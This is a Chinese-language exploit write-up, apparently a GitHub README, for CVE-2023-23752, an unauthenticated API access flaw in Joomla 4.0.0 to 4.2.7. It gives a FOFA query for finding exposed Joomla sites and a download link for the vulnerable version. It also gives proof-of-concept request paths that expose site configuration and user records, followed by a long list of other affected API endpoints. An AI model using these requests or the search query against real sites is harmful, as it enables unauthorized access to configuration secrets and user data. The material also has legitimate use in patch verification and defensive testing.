

# CVE-2023-23752

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Joomla 未授权漏洞


## 0x01 漏洞描述

在  Joomla 版本为4.0.0 到 4.2.7中发现了一个漏洞，不正确的访问检查允许对 web 服务端点进行未经授权的访问。

## 0x02 影响版本

```
4.0.0 ~ 4.2.7
```

## 0x03 FOFA 语法

```
product="Joomla"
```

## 0x04 环境搭建

```
下载地址：

https://downloads.joomla.org/cms/joomla4/4-2-7/Joomla_4-2-7-Stable-Full_Package.zip?format=zip
```

## 0x05 漏洞复现

### POC

```
/api/index.php/v1/config/application?public=true
/api/index.php/v1/users?public=true
```

### 开始



#### 其他受影响的API

```
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
v1/contacts/form/:id
v1/contacts
v1/contacts/:id
v1/contacts
v1/contacts/:id
v1/contacts/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories/:id
v1/contacts/:id/contenthistory
v1/contacts/:id/contenthistory/keep
v1/contacts/:id/contenthistory
v1/content/articles
v1/content/articles/:id
v1/content/articles
v1/content/articles/:id
v1/content/articles/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories/:id
v1/content/articles/:id/contenthistory
v1/content/articles/:id/contenthistory/keep
v1/content/articles/:id/contenthistory
v1/extensions
v1/languages/content
v1/languages/content/:id
v1/languages/content
v1/languages/content/:id
v1/languages/content/:id
v1/languages/overrides/search
v1/languages/overrides/search/cache/refresh
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB/:id
v1/languages
v1/languages
v1/media/adapters
v1/media/adapters/:id
v1/media/files
v1/media/files/:path/
v1/media/files/:path
v1/media/files
v1/media/files/:path
v1/media/files/:path
v1/menus/site
v1/menus/site/:id
v1/menus/site
v1/menus/site/:id
v1/menus/site/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items/:id
v1/menus/site/items/types
v1/menus/administrator/items/types
v1/messages
v1/messages/:id
v1/messages
v1/messages/:id
v1/messages/:id
v1/modules/types/site
v1/modules/types/administrator
v1/modules/site
v1/modules/site/:id
v1/modules/site
v1/modules/site/:id
v1/modules/site/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories/:id
v1/plugins
v1/plugins/:id
v1/plugins/:id
v1/privacy/requests
v1/privacy/requests/:id
v1/privacy/requests/export/:id
v1/privacy/requests
v1/privacy/consents
v1/privacy/consents/:id
v1/privacy/consents/:id
v1/redirects
v1/redirects/:id
v1/redirects
v1/redirects/:id
v1/redirects/:id
v1/tags
v1/tags/:id
v1/tags
v1/tags/:id
v1/tags/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator/:id
v1/users
v1/users/:id
v1/users
v1/users/:id
v1/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels/:id
```
